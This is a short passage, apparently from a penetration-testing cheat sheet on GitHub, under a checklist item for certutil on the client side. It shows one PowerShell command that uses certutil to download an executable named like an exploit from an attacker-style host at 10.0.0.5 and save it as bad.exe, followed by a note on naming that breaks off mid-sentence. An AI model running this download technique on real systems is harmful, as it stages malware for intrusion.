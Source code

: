 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this c